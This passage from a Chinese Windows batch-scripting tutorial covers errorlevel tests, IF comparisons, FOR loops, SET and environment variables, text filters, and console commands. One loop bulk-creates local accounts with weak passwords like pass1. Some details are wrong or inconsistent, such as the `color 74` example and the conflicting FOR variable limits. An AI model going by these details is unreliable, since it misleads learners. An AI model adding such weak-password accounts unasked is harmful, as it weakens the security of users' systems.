echo 添加用户失败！
goto :eof
:0
echo 添加用户成功！
```

在 CMD 中先后执行两次，第一次成功添加用户，第二次由于账户已存在所以添加失败，如图 4-3-4。

为什么要先判断错误号码 1 呢，因为这个命令是当返回值大于或等于指定值的时候执行后面的命令，因此在排列返回值的时候一定要按照从大到小的顺序。如果返回值是 1 的话，那么 `if errorlevel 0` 和 `if errorlevel 1` 的条件都为真，所以就要先判断比较大的错误值了。If Errorlevel 一般同 Goto 语句连用，不同的返回码跳转到不同的标签，主要目的是为了跳过下面的 if errorlevel 语句。

回头看了一些高人的文章，发现这里最好还是加入 not 的用法。`If Errorlevel n` 的意思是当返回值大于等于 n 的时候执行后面的命令，而 `If Not Errorlevel n` 的意思则是当返回值不大于等于 n，即小于 n 的时候执行后面的命令。那我们把这两句话结合起来，意思岂不是当返回值等于 n 的时候执行命令呢？这个想法很不错，的确可以这么用。

```bat
if errorlevel 0 if not errorlevel 1 goto 0
```

这样的话只有当前面执行命令的返回值为 0 的时候这个 if 语句的结果才为真，才会执行后面的 `goto 0`。其中 `if errorlevel 0` 和 `if not errorlevel 1` 之间是“且”的关系，注意语句中是没有 and 的，这也是容易出错的地方。这种用法一般前提是前面的程序或命令的返回值比较少，而且你已经了解它都有哪些返回值并知道这些返回值的具体含义。这里只要学会这个用法就可以了，以备不时之需。

不仅仅是 CMD 命令，几乎所有的 `.exe`、`.com` 等可执行程序都是有返回值的，即使是批处理也可以。返回值是由程序或命令本身决定的，一般情况下无法修改。在使用 `IF ERRORLEVEL` 语句的时候，我们最常碰到的问题就是某个程序或命令的某个执行结果的 Errorlevel 值如何获取。知道了这些值以及值所代表的含义，我们就可以根据不同的执行结果做出不同处理。前面说过一般情况下执行成功返回值为 0，执行失败返回值为 1，但这只是粗略分类，应用程序执行时可能发生不可预料的多种情况，也就会有多种返回值。

有些命令或程序在帮助文档中会提供返回值，例如 `Reg` 命令，但很少，因此大多数时候需要自己探索。这里主要教大家如何获得一个程序的返回值：将一个命令的所有可能执行结果都测试一遍，然后在命令后使用 `IF Errorlevel n if not errorlevel n+1` 获取返回值的具体值。

```bat
@echo off
if errorlevel 0 if not errorlevel 1 call :err 0
if errorlevel 1 if not errorlevel 2 call :err 1
if errorlevel 2 if not errorlevel 3 call :err 2
if errorlevel 3 if not errorlevel 4 call :err 3
if errorlevel 4 if not errorlevel 5 call :err 4
goto :eof
:err
echo.
echo 返回值为:%1
```


将以上代码保存为 `finderr.bat`，然后在 CMD 下输入用 `&` 连接要测试返回值的命令和 `finderr.bat`。以 `net` 命令为例，测试不同执行结果的返回值：帮助信息时返回值为 1；正确执行 `net user` 时返回值为 0；错误执行时返回值为 2。该批处理示例只探测到 0~4 的返回值，若要更大范围可继续按顺序扩展。

在 Windows XP 中，系统扩展了默认环境变量，其中 `%errorlevel%` 可以返回前面执行命令的返回值，不论该值是多少。只要用 `echo` 打印即可。


```bat
@echo off
echo.
echo 当前命令返回值为:%errorlevel%
```

就这么简单！和上面的例子一样，用 `&` 连接执行命令即可。

## d、If 的比较运算

这里的比较运算除了等于和不等于外，还有大于、小于、大于或等于、小于或等于。完整命令格式为：`if [/i] string1 compareop string2 command [else expression]`。若指定 `/i`，则字符串比较不区分大小写，`compareop` 表示比较类型。

| 运算符 | 说明 |
|---|---|
| EQU | 等于 |
| NEQ | 不等于 |
| LSS | 小于 |
| LEQ | 小于或等于 |
| GTR | 大于 |
| GEQ | 大于或等于 |

If 的这个用法可以比较字母、数字以及符号，默认大小顺序为**字母 > 数字 > 符号**。一般比较符号的时候比较少，这里我们只讨论字母和数字。比较字母时按字母顺序进行，且大写字母要大于小写字母。在字符串比较时，If 会从左到右逐位比较，直到得出结果；若对应字符相同则继续比较下一位。若比较对象是数字字符串，则会转换为数字再比较。

知道了上面这些后我们就可以构造语句了。比如我要比较用户输入的数字是否大于 255，ifcom.bat 代码如下：

```bat
@echo off
if "%1" GTR 255 (
    echo 输入的数字大于255
) else (
    echo 输入的数字小于255
    echo 或者
    echo 输入的数字等于255
)
```


在 CMD 下分别用不同的参数执行这个批处理，结果如图 4-3-8。

也许你注意到了代码的书写异常，else 并没有和 if 同行，但是执行后却没有出错。这种结构我们可以称作是**IF-ELSE**结构。利用这种结构我们可以在 IF 或者 ELSE 后不使用 `&` 符号就执行多个命令。这些命令中的书写仍然要遵循一行一个，并且每一部分都要用括号包围。还需要注意的是 if 后面执行的命令最少要有前半个括号和 if 同一行，else 的前后都必须有内容，否则会出现“命令语法不正确”等错误。

由这种书写格式我不由得想到了 IF-ELSE 的嵌套，即在 IF 后的命令中再添加 IF 或 IF-ELSE 接受的命令，这样可以逐渐缩小指定条件的范围。在某些场合下还是比较有用的，比如：

```bat
if not errorlevel 2 (
    if not errorlevel 1 (
        echo 返回值为0
    ) else (
        echo 返回值为1
    )
) else (
    echo 返回值大于或者等于2
)
```


其中第一行和第四行的 if 和 else 属于一个结构，第二三行的属于第一个 IF 内部的一个 IF-ELSE 结构。“if not errorlevel 2”可能的值有 0 和 1，然后进入内部的 IF-ELSE 结构来判断是 0 还是 1；如果条件不满足的话就跳转到执行外部的 else 语句后的 echo 命令。是不是有些头晕呢？问题的确有，但这仅仅才是两个嵌套，更多的嵌套会让人眼花缭乱。其实你只要按照命令的执行顺序一步步地进入嵌套，然后再出来，慢慢你就会熟悉这个过程了。这里无论从书写格式还是用法上，IF-ELSE 的用法都像极了高级语言。

## 4.3.2、For

For 是一个循环命令，利用它可以重复执行一个动作，而最重要的是每次执行一条命令都允许更新参数，这使得它成为批处理中最强大的命令之一。For 的基本命令格式为 `for {%variable|%%variable} in (set) do command [CommandLineOptions]`，在讲解其它常用的 FOR 的高级用法之前，我们还是需要了解它的最基本用法。

### a、For 的基本用法

在 For 的命令格式中的大括号中有两个参数。For 命令在命令提示符下使用参数时和其它命令一样，而当它用在批处理中时就要用两个百分号引导了，比如 `%%i`，这个算是 For 的一个特性了吧。in 和 do 不是参数，而是 For 命令中的关键字，它们在 For 命令执行时是必须的。`(set)` 也是必须的，它指定了要用命令处理的一个或多个文件、目录、数值范围或者文本字符串，它需要括号。这里我用一条 for 语句显示了三个文本文件的内容，例子中的参数为 `%i`，尽管您可以用任何数字或者字母替换，但是为了不和批处理参数冲突，for 的参数一般用字母指定。并且 For 的字母参数对大小写是敏感的，`%z` 和 `%Z` 不是同一个参数。这使得在 For 命令中我们可以用 52 个参数，而这也是它允许使用的最多参数数量了。这里的 `(set)` 是 `(1.txt 2.txt 3.txt)`，正如你所看到的 `(set)` 括号里的内容是以空格分隔的。当该 For 命令被执行后，`%i` 首先被替换为 `1.txt`，所以后面执行的就是“type 1.txt”，然后继续读取 `(set)` 中的第二个值 `2.txt` 并替换 `%i`，于是接下来就显示了 `2.txt` 的内容。继续执行下去直到使用 `(set)` 中的所有内容替换完参数，For 命令就停止执行了。

和其它命令一样，For 命令支持通配符，比如 `for %i in (*.txt) do type %i`，可以达到和上个例子同样的目的。这里会先把 `*.txt` 替换为当前目录下的所有文本文档，然后再依次执行。

### b、For 对目录的操作

在上例中我们可以对文件操作，可以对字符操作，但是不可以对目录进行操作。比如把 `(set)` 的值设置为 `*`，如图 4-3-10。

而在这个目录中除了有这三个文件外还有五个目录（其中 Cookies 为系统目录，Dir 无法显示），如图 4-3-11。

那我们如何使用 For 命令对目录进行操作呢？这时候就要用到 `/d` 参数了，在 for 后面加上 `/d` 就可以实现对文件夹的操作了，如图 4-3-12。

For 的另一个和目录有关的参数是 `/r`，格式为 `for /r Local_Path %i in (set) do command`。其中 Local_Path 为一个本地路径，For 的这个用法是在指定的本地路径及其所有下一级子目录下都执行一次 command；如果没有指定本地路径，则从 For 执行的目录开始执行。

```bat
@echo off
for /r e:\program files\ %%i in (*.txt) do echo %%i
pause
```

执行后结果如图 4-3-13。注意如果指定的本地路径是一个驱动器的话，那一定要加上反斜线才能生效，比如 `e:\`。

### c、重复数值范围

使用 `For /l` 可以从一个起始值开始，在一个数值范围内以一定步长执行命令，格式为：`for /L 参数 in (start,step,end) do command`。其中 start 为起始值，step 为步长，end 为该范围最大值。

例如在 CMD 中输出 1-5：`for /l %i in (1,1,5) do echo %i`，结果如图 4-3-14。

```bat
for /l %%i in (1,1,10) do echo > file%%i.txt
Rem 这样建立从file1到file10十个文本文件
for /l %%i in (10,-1,1) do net user user%%i pass%%i /add
Rem 这样依次建立从user10到user1十个账户，密码对应为pass10到pass1。
```

For 的这个用法在日常工作中是十分有用的，例如有时候笔者编辑泡吧的文章，作者文章中的图片命名都不是统一的……


我们的标准是图片另外保存在一个文件夹中，并且名字为 1、2、3……这样的，如果图片超过 10 个，则要命名为 01、02、03……这样的。如果文章中图片很多的话，手工修改文件名还是比较麻烦的，于是我就写了个批处理 cn.bat 实现自动改名，代码如下：

```bat
@echo off
Rem 这个批处理的功能是修改多个图片的文件名为按数字顺序排列的文件名
Rem 该批处理接受三个参数：参数一是图片的数目；参数二是原图片名的前缀；参数三是文件的后缀名
if %1 gtr 9 goto 0
for /l %%i in (1,1,%1) do ren %2%%i.%3 %%i.%3
goto :eof
:0
for /l %%i in (1,1,%1) do ren %2%%i.%3 %%i.%3
for /l %%i in (1,1,9) do ren %%i.%3 0%%i.%3
```


这个批处理不仅可以重命名 10 以下的文件，对于十个以上的文件，它还会做出自动判断并且命名为 01、02 这样的格式。假设这里作者文章的图片的命名是 image1、image2 这样的，图片格式全部为 `.bmp`，一共有 14 个文件，看 cn.bat 的用法，如图 4-3-15。

我们已经成功修改了文件名为所需要的格式，不过有的作者的图片文件名没有规律，标号倒是有，但是前缀不一致。其实在 WinXP 的图形界面下就可以实现批量改名，首先选中所有要改名的文件，然后在第一个文件上点击右键并选择“重命名”，命名为 `1(1)`，注意后缀名不要变，回车，是不是一下子文件名全变了？如图 4-3-16。


这下文件名又有规律了，只要将上面的批处理稍作修改就可以重命名这些文件为我们想要的形式了，这个留给大家下去完成了，一定要做哦！

### d. 重复和文件解析

For 的这个用法是功能最为强大也是最经常用到的，它的下面还有三种用法。它可以从文件、字符串、命令中读取指定的字符或字符串然后传递到执行的命令中作为参数等使用，其参数名为 `/f`，基本命令格式为：`for /f 选项 参数 in (set) do command`。其中 `(set)` 可以是一个或多个文件，也可以是一个字符串，也可以是一条命令。文件的写法是括号包围文件名，比如 `(nohack.txt)`；字符串需要用双引号和括号包围，比如 `("string")`；而命令则需要由单引号和括号包围，比如 `('net user')`。这里我们重点要学习的是它的若干个选项，如图 4-3-17 是它的所有可选项。

| 关键字 | 说明 |
|---|---|
| eol=c | 指定行尾字符（只一个字符） |
| skip=n | 指定在文件的开始跳过的行数 |
| delims=xxx | 指定分隔符集合，默认为空格和制表符 |
| tokens=x,y,m-n | 指定每行提取的字段位置 |
| usebackq | 允许使用反引号执行命令，支持带空格文件名 |

图 4-3-17 for /f 的可选项说明

官方的描述难免晦涩难懂，这里我再将它们的功能简单介绍下：

```text
eol=c   忽略以字符 c 开头的那行内容（只能是单字符）
skip=n  忽略前 n 行内容，前 n 行不参与 For 命令解析
tokens=x,y,m-n  指定引入的每一行的第 x 和 y 个或者从第 m 到第 n 个字符/字符串作为后续命令参数
delims=xxx  指定每一行字符/字符串的分隔符号
usebackq  对带空格文件名很有用，可用双引号引用文件而非单词串
```


上面的这些选项都是被包围在一对引号中的。下面我们来看这些选项的应用实例，首先我在 CMD 中将当前目录下的所有文件和文件夹内容输入到 nohack.txt，文件内容如图 4-3-18。

我们就用这个 nohack.txt 做实验，它一共有 14 行，除去两行为空还有 12 行内容，将下列代码保存为 for-f1.bat。

```bat
@echo off
@for /f "eol=E tokens=1 delims= " %%i in (nohack.txt) do echo %%i
@pause
```


执行这个批处理结果如图 4-3-19。这里结果只剩下了十一行内容，因为“eol=E”过滤掉了以字符“E”打头的那行内容。分隔符为空格（`delims= `），因此每行空格前的第一部分被引入到后面作为执行参数（`tokens=1`），即“echo %%i”。

在传递了参数后，“%%i”就被替换成从前面提取的部分，从第一行的“驱动器”开始一直到最后一行的“6”，当然中间由于 eol 的原因跳过了以 E 打头的那行（要注意的是选项 eol 对大小写敏感，e 和 E 不是同一字符）。大家应该对比 nohack.txt 文件的内容和批处理输出的内容理解这个批处理各个选项的意思。

上面的例子中我们只引入了一个变量 `%%i`，你也可以使用其它参数，但 for 命令允许最多参数为 26 个。如果需要使用多个参数，在前面也无需声明指定的参数名称，For 命令会根据你指定的第一个参数的名称按字母顺序依次排列参数，比如：


```bat
for /f "skip=6 tokens=1,2,3 delims= " %%i in (nohack.txt) do @echo %%i %%j %%k
```

这条语句会获得 nohack.txt 中从第 7 行开始的每行以空格分隔的前三部分内容作为参数并依次传递给变量 `%%i`、`%%j` 和 `%%k`，然后执行后面的 echo 命令，执行结果如图 4-3-20。

虽然在指定变量的时候（关键字 in 前面的 `%%i` 就是）只要指定一个合法的就可以了，但是语句“tokens=1,2,3”告诉了 For 命令将会产生三个参数，而在后面使用的时候系统不会将那两个隐藏的参数自动引入执行，而需要人为根据字母顺序将它们补充出来。


下面再让我们看一个例子，我首先将 nohack.txt 重命名为 no hack.txt（注意中间多了一个空格），这时候再执行上面的命令就会提示找不到文件 no 了，如图 4-3-21。

这是由于文件名中的那个空格造成的。这前面我们已经知道了，这时候我们自然想到可用双引号将文件名引起来，不过在 For /f 的这个用法下，双引号中被定义的可是字符串啦！针对这种情况微软也给出了解决方案，就是使用 usebackq，让我们看如下代码：

```bat
for /f "usebackq tokens=1-3* delims= " %%i in ("no hack.txt") do @echo %%i %%j %%k %%l
```


加入 usebackq 后，For 命令就会认为双引号中的是一个文件而不再是一个字符串了，执行后结果如图 4-3-22。

这其中我又使命令包含了新的元素：“tokens=1-3*”告诉 For 命令要传递每一行的所有内容到后面的命令中，其中“*”号诠释了第 3 部分后的所有内容。“1-3”代表了以空格分隔的每行的前三部分内容，它们分别作为参数引入到变量 `%%i`、`%%j` 和 `%%k` 中，而“*”则引入 `%%l` 变量。


同样对比“no hack.txt”你就会发现每一行第三部分后面的内容都被 echo 了，前两行由于第四部分内容为空，所以执行的只有 echo，也就输出了 echo 状态了。


命令要用两个单引号包围住，虽然表面上是命令，但实际是指定命令的输出结果，因此我们也可以在单引号中加入命令的可选项和参数。字符串就不用说了，使用起来更是相当直观。我们一般情况下用得比较多的，就要数对文件和命令输出的解析了。在使用 `for /f` 的时候，选项也可以不指定，它们都有默认值：`skip`、`usebackq` 和 `eol` 默认不指定，`tokens` 的默认值为 `1`，而 `delims` 指定的默认分隔符为空格。

想想还有什么要说的没了，好像已经倾尽所有了。最后要提醒大家的是：你在批处理中使用 `for` 命令时总是执行失败吗？那最好检查下你的变量用的是否是两个 `%%` 号引导的。

## 4.3.3 Set命令与环境变量

要理解环境变量，先要理解什么是变量。变量就是变化的量……这里只讨论和 Windows 环境相关的变量。比如驱动器、路径和文件等有关的变量，用户可以用环境变量来找到同一类型不同位置的信息。比如系统文件夹默认安装在 `C:\Windows`，而有的用户则安装在了其它盘上，这时候我们就可以用环境变量找到它。WinXP 中有一个环境变量代表系统目录：`%systemroot%`。当系统盘为 `C:\Windows` 时，`%systemroot%=C:\Windows`；当系统盘为 `D:\WINDOWS` 时，`%systemroot%=D:\WINDOWS`。它会随着系统盘的改变而改变，这就是变量的含义了。

使用系统变量可以使我们的批处理具有通用性，有时候也可以用环境变量获得一些系统信息，简化批处理代码等。在批处理命令中使用的参数和变量难免不够或者无法达到我们的要求，这时候环境变量就会弥补不足，所以学好环境变量对编写批处理也是非常重要的。环境变量大体上可以分为系统变量和用户变量，前者对于系统中的所有用户都有效，而后者只对当前登录用户有效。

`set` 命令可以显示、设置或删除环境变量，利用它我们可以随心所欲地操纵系统中的变量。使用不带参数的 `set` 可以显示当前系统中的所有变量。

其中等号前面的是变量名，后面的是当前系统对应变量的内容。环境变量使用两个百分号引导，变量名要包含在其中，比如 `%COMPUTERNAME%`。一般根据系统默认的环境变量名称我们可以猜到该变量代表的意义，比如计算机名称。我们在输入命令的时候虽然输入的是变量名，但是在命令执行的时候环境变量会被替换成它所代表的内容，比如 `echo %ComputerName%` 输出的就是计算机名称。

仅仅就是这么简单的替换，这下理解环境变量的概念了吧！下面我们就来学习 `set` 命令的一些用法。

### a. 简单设置和删除环境变量

比如我要将我的名字设置为变量 `MyName`，命令为：`set MyName=Fornever`；删除一个变量也很简单，只要把变量赋值为空即可。

### b. 设置用户自定义的环境变量

该用法可以给出一个提示让用户设置某个环境变量的值，格式为：`set /p 变量名=提示内容`。例如定义变量 `UserID` 来保存用户输入的 ID 号。

### c. 设置可求值表达式的环境变量

`set` 命令的 `/a` 开关可以使变量的值为一个表达式最终求得的结果，可用于简单的加减乘除等运算，甚至还可以进行更复杂的数学运算。它的命令格式为：`set /a 表达式`，比如 `set /a n=1+4`，这时候变量 `%n%=5`。这里变量可以实现自变，比如 `nn=nn+mm`，如图4-3-29。

除了支持基本的算术运算外，`set /a` 还支持其它多种运算，如图4-3-30。图中的运算符号是按照从高到低的优先顺序，除了算术运算符号外其它符号我们不再讨论，有兴趣的朋友可以自己研究。

### d. 增强的环境变量

#### d-1. 动态环境变量

在 Windows XP 下环境变量已被增强，首先有几个动态的环境变量，它们不会出现在 `set` 的列表中，但同样非常有用。所谓动态，是因为在同一个系统中 `set` 显示的环境变量是静态的，在命令扩展名被启用后这些变量可以被扩展。默认情况下命令扩展名是启用的，也可以用 `cmd` 命令开启它。对应命令如：`cmd /e:on`，关闭为 `cmd /e:off`。开启和关闭只对当前 CMD 有效。

Windows XP 中可用的动态环境变量如下：

| 变量名称 | 功能描述 |
|---|---|
| `%CD%` | 扩展到当前目录字符串。 |
| `%DATE%` | 用跟 `DATE` 命令同样的格式扩展到当前日期。 |
| `%TIME%` | 用跟 `TIME` 命令同样的格式扩展到当前时间。 |
| `%RANDOM%` | 扩展到 0–32767 之间的任意十进制数字。 |
| `%ERRORLEVEL%` | 扩展到当前 `ERRORLEVEL` 数值。 |
| `%CMDEXTVERSION%` | 扩展到当前命令处理器扩展名版本号。 |
| `%CMDCMDLINE%` | 扩展到调用命令处理器的原始命令行。 |

其中就有我们可爱的 `%ERRORLEVEL%`，正是它使复杂问题变得简单了很多。其中常用的还有 `%CD%`、`%DATE%`、`%TIME%`，稍微高级些的像 `%RANDOM%`。

#### d-2. 自变环境变量

自变是我命名的名字。在定义了一个环境变量后，我们可以用特殊的引用方法使环境变量发生暂时变化，其中可以替换变量中的字符或字符串，或者只使用变量中的一部分内容。以 `MyName=Fornever` 为例，若要显示 `%MyName%` 变量时将 `never` 替换成 `ever`，命令为：`echo %myname:never=ever%`。

显示结果为 `Forever`。而 `%MyName%` 变量并未改变，只是在使用时对变量本身做了处理。这种环境变量自变用法是在变量名后加冒号，后半部分等号前是要替换的原变量内容，等号后是替换成的内容。

我们还可以截取变量的一部分内容。对于只有一个数字的情况，它代表从变量左边开始隐藏几个字符；对于用逗号分隔的两个数字，前面的数字是偏移位置（从0开始），后面的数字表示显示长度。示例中最终显示的是 `or`。

环境变量的这两个用法常用于字符串处理，在编写需要和用户交互的批处理时十分有用。

#### d-3. 环境变量延迟

WinXP 中添加了对环境变量延迟的概念，这可以让我们使用其它符号去替代百分号来引导环境变量，在某些无法使用百分号正常引导时非常有用。默认情况下延迟环境变量是关闭的，可以用 `cmd /v:on` 开启。然后可以用感叹号替代百分号引导环境变量，比如 `!errorlevel!`。

不过用 CMD 在批处理中开启环境变量的延迟还是无法正常执行其它命令的，我们还可以用将要讲到的 `setlocal` 命令开启。

### e. 环境变量本地化

`setlocal` 命令可以使环境的改动只限制在本地操作中，这里所谓的本地就是批处理中 `setlocal` 和 `endlocal` 中间的部分，它们两个构成了一个环境。在一对 `setlocal` 和 `endlocal` 中设置的环境变量将不会影响批处理中的其它部分。我们举个例子吧，将下列代码保存为 `setlocal.bat`：

```bat
@echo off
setlocal
set computername=Fornever's
echo %computername%
echo.
endlocal
echo %computername%
echo.
pause
```

执行后的结果如图4-3-33。例子中新设置的环境变量只在 `setlocal` 和 `endlocal` 之间的部分有效，其它部分均无效。另外这两个命令只用于批处理。前面我们说过 `setlocal` 可以开启环境变量延迟，这里连同一个不能使用常规环境变量的例子来讲解，将如下代码保存为 `nodelay.bat`：

```bat
@echo off
set nohack=www.nohack.cn
set nohack=www.nohack.cn/bbs & echo %nohack%
echo.
pause
```

执行后结果如图4-3-34。这时候变量 `%nohack%` 就失效了，很多这样的连接命令或者包含命令部分的变量都会失效，这时候就需要开启环境变量延迟了，将如下代码保存为 `delay.bat`：

```bat
@echo off
:: 下面这句开启环境变量延迟
setlocal EnableDelayedExpansion
set nohack=www.nohack.cn
set nohack=www.nohack.cn/bbs & echo !nohack!
echo.
endlocal
pause
```

执行后结果如图4-3-35。这次后面的 `echo` 语句显示了修改后的变量 `nohack` 的内容，就是因为使用了环境变量延迟。

### f. Path与Pathext变量

`Path` 和 `Pathext` 是两个比较特殊的环境变量，虽然它们的值是连续的，但实际上可以看作是多个，如图4-3-36。还记得我们可以在“运行”和 CMD 中直接输入文件名（不带扩展名）而执行一些程序吗？这个功能就是由 `Path` 和 `Pathext` 完成的：系统先在当前目录查找文件，再按 `Pathext` 给定扩展名依次尝试；若仍未找到，则按 `Path` 指定路径依次查找。

`Path` 和 `Pathext` 变量指定的搜索路径和扩展名是有先后顺序的，从左到右。可以通过设置 `Pathext` 添加自定义扩展名（如 `set pathext=.fox;%pathext%`），如图4-3-37。设置 `Path` 变量同理，Windows XP 还提供了 `path` 命令：`path` 可显示当前值，`path;` 可清空，设置时可配合 `%path%` 保留原值，如图4-3-38。

### g. 环境变量的保留

在 CMD 中使用 `set` 命令设置的环境变量只在当前 CMD 窗口中有效，打开一个新的 CMD 窗口你对环境变量的修改都将复原。那如何保留环境变量，让它们永远存在系统中呢？Follow me！右击“我的电脑”选择属性，并在“系统属性”中打开“高级”选项，点击其中的“环境变量”，出现如图4-3-39。

点击“系统变量”中的“新建”，输入变量名和变量值后一路确定下去就可以设置一个永久的环境变量了。在注册表中我们同样可以添加一个永久的环境变量，来到 **HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment**，在右面我们可以看到所有的系统变量，在其中新建一个字符串值，名称就是变量名，值就是变量值了，如图4-3-40。

另外在 **HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001** 下的同样位置也可以设置哦！

## 4.3.4 使用筛选器

筛选器就像它的名字一样，可以对命令的输出或者文件做一定的处理，然后将处理后的内容显示出来。筛选器常与命令重定向管道符（`|`）联合使用，在 Windows 中的筛选器有 `More`、`Sort` 和 `Find`。

### a. More

`More` 命令的功能是逐屏显示输出，当命令输出的内容多于一屏的时候，每显示一屏就暂停一下等待用户指令。其命令格式为：`command-name | MORE [Option]`。`More` 不仅可以对命令输出操作，也可以对一个或多个文件的内容逐屏显示，格式为：`More [Option] < Files` 或者 `More [Option] Files`。

| 选项 | 说明 |
|---|---|
| `/E` | 启用扩展功能（默认启用） |
| `/C` | 显示页面前先清除屏幕 |
| `+n` | 从第 n 行开始显示第一个文件 |

其中 `Files` 代表一个或多个文件，多个文件时使用空格分开每个文件。如果文件不在当前目录下，则需要指定文件路径。当扩展功能被启用后，在显示内容多于一屏的情况下会出现 `--- More ---` 的符号，这时它会接受下面的指令：

| 指令 | 说明 |
|---|---|
| `P n` | 显示下 n 行 |
| `S n` | 略过下 n 行 |
| `F` | 显示下一个文件 |
| `Q` | 退出 |
| `=` | 显示行号 |
| `?` | 显示帮助行 |
| `<space>` | 显示下一页 |
| `<ret>` | 显示下一行 |

老规矩我们来看例子，首先我在用一个 `for` 命令生成一个文本文件，文件的每一行只有一个数字，命令为：`for /l %i in (1,1,100) do echo {LINE %i} >> test.txt`，然后在命令行下输入 `more /E test.txt`，如图4-3-41。

这里根据 CMD 窗口的大小一屏输出了 20 行内容，因为命令中使用了 `/E` 启用了扩展功能，所以可以使用后面的指令。例如输入 `=` 可以显示行号，输入 `p 5` 可以显示下 5 行，输入 `s 5` 可以略过下 5 行；空格键显示下一屏，回车键显示下一行。退出除了 `Q` 外，还可以用 `Ctrl+C`。

多个文件的操作就不演示了，这里我们来看用管道符号过滤命令的输出吧！这里用 `Tree` 命令做演示，它的功能是用以图形显示驱动器或路径的文件夹结构，一个很像树的结构。要查看当前文件夹的目录结构，只输入 `Tree` 就可以了，这里我们查看 D 盘的目录结构并用 `More` 命令做过滤，如图4-3-42。

这里我的命令为 `Tree d:\ | more /c`，用了清屏的功能。其实对于命令的输出和从文件中读入内容的过滤都是差不多的，多用几次你就会熟悉它了。

### b. Sort

`Sort` 命令的功能是排序，我们经常用它在显示命令输出或者文件内容的时候按一定顺序显示：一般是升序或降序。`Sort` 不仅可以排序数字和字母，连符号也可以排序。我把键盘上所有能输入的字符都输入进去并排序，得到的升序结果为：

```text
`"!#$%&'()*+,-./:;?@[\]^_`{|}~<>0123456789AaBbCcCDdeEfFgGhHiIjJkKlLmMnNoOpPqQrRsStTuUvVwWxXxYyZz`
```

其中比较数字的时候，并不是按数字的大小排列的，而是按照和字母排列一样的规则，即从左到右，比如 `10` 就要在 `2` 的前面。顺序搞清楚了，我们来看 `Sort` 命令的用法，这里给出它几个比较有用的可选项：

- `/m`：指定用于排序的主内存量，单位为 KB，最小内存量为 160KB。
- `/r`：颠倒排序顺序为降序，即从 z 到 a，再从 9 到 0。
- `/o`：将排序后的结果输出到文件而不是输出到命令提示符中。

一般中文排序没有什么意义，所以我首先要转换 CMD 的语言类型，命令为 `CHCP 437`，如图4-3-43。这下输出信息全都是英文了，我们就拿 `set` 的帮助命令开刀吧。这里我分配给排序 210KB 的内存，其实小型的排序提高内存的速度提升效果根本感觉不出来，仅做演示而已，如图4-3-44是 `set` 帮助信息的部分排序内容。

如果想要倒序排列输出信息并把排序结果输入一个文件，则命令为 `set /? | sort /r /o output.txt`，这样排序后的结果就输出到 `output.txt` 里面了。至于从文件中获得输入的方法和 `More` 命令相同，`sort < file` 或者 `sort file` 都可以，`Sort` 命令一次只能操作一个文件。

### c. Find

`Find` 命令是最常用到的过滤器，它可以在文件或者命令输出中搜索指定字符串，并显示包含或不包含指定搜索字符串所在的行的内容。`Find` 命令的几个常用可选项有：

- `/V`：显示所有未包含指定字符串的行。
- `/C`：仅显示包含字符串的行数。
- `/N`：显示行号。
- `/I`：搜索字符串时忽略大小写。

我们仍以 `set /?` 为例子，首先我们要寻找 `set` 的帮助文件中有哪些行包含了字符串“set”，如图4-3-45。注意要搜索的字符串一定要用双引号引住，否则无法执行。如果输入的命令为 `set /? | find /v "set"`，显示的则是 `set /?` 命令除了前面显示的命令剩余的那些。如果要统计存在指定字符串的行的数量，则使用 `/c`。默认搜索时大小写敏感，若要忽略大小写搜索则在字符串前面加入 `/i` 可选项。

### 4.4 批处理命令周边

这里将要讲到的命令一般做辅助使用，它们中一些还可以使你的批处理规范化和个性化，可以美化你的批处理。这些命令对主体功能几乎没有影响，不过用得还是比较多的。除了前面讲过的命令提示符设置命令 Prompt 外，还有以下几个命令。

### 4.4.1 Color

Color 命令用来设置命令提示符的前景和背景颜色，其用法很简单：`color gf`，其中 g 代表背景颜色，f 代表前景颜色，颜色属性由两个十六进制数字指定，目前支持的颜色有：

- 0 = 黑色
- 1 = 蓝色
- 2 = 绿色
- 3 = 湖蓝色
- 4 = 红色
- 5 = 紫色
- 6 = 黄色
- 7 = 白色
- 8 = 灰色
- 9 = 淡蓝色
- A = 淡绿色
- B = 淡浅绿色
- C = 淡红色
- D = 淡紫色
- E = 淡黄色
- F = 亮白色


比如我要将前景设置为黄色，背景设置为蓝色，则命令为 `color 74`。要恢复默认颜色，只要输入 `color` 就可以了，如图 4-4-1。

除了 Color 外，CMD 命令也可以设置控制台显示颜色，可选项为 `/t`，使用格式为 `cmd /t:gf`，和 Color 是一样的，不过对这个用法官方的描述貌似错了，控制台颜色的修改只对当前窗口有效。

### 4.4.2 Title

Title 用来设置命令提示窗口的窗口标题，比如我们写一个批处理程序，执行的时候就可以让执行的窗口显示我们批处理文件的名称和作者名称，它的用法很简单：`Title string`，比如 `title Fornever @ www.nohack.cn`，显示如图 4-4-2。


### 4.4.3 设置 CMD 窗口大小

一般情况下 CMD 窗口最大化后也没有占满整个屏幕，它和其他窗口是不同的，我们可以利用 Mode 的一个子命令来修改 CMD 窗口的大小，其命令格式为：`MODE CON COLS=c LINES=n`，其中 COLS 指定窗口宽，LINES 指定窗口高，这里宽的数值代表每行所能容纳的最大字符数，而高则指的是窗口所能容纳的最大行数。设置后的尺寸均为 CMD 窗口最大化时的尺寸。

### 4.4.4 Pushd 和 Popd

这是两个比较有意思的命令，Pushd 可以设置一个路径为当前路径，同时和 CD 命令不同的是，它不仅可以直接跳转到另外的驱动器中，还会记忆跳转前的路径，以便用 Popd 命令恢复到前一个路径。这里首先要理解一个概念——堆栈。


> **【什么是堆栈】**
>
> 堆栈是一个模型，它遵循先进后出的原则，就像我们往一个纸筒里放羽毛球一样，先放进去的必定是最后拿出来。在计算机中，有时候执行的指令或者字符串存储在堆栈中，在使用它们的时候就要用先进后出的原则了。

这里 Pushd 和 Popd 命令就是一个堆栈应用的实例，Pushd 往堆栈中存储路径，叫做入栈，而 Popd 从堆栈中提取路径叫做出栈。Pushd 命令每次在跳转到另一个路径之前都会存储当前的路径到堆栈中，如图 4-4-3 是它们的用法，图 4-4-4 是对应的堆栈模型（画得相当粗糙，见笑了）。

Pushd 最先存储的路径最后出栈，最后进栈的却最先出栈，这两个命令就是这个功能了。当在批处理中需要跳转到某个目录执行命令，然后再跳回到主目录来，这两个命令非常有用。堆栈的概念在计算机领域应用很广泛，大家一定要理解了啊！


### 4.5 批处理编写实例

下面我讲给出几个批处理实例，希望大家能从中获得你想要的东西，有些复杂的地方我会把注释写在批处理中。

### 4.5.1 修改 IP 的批处理

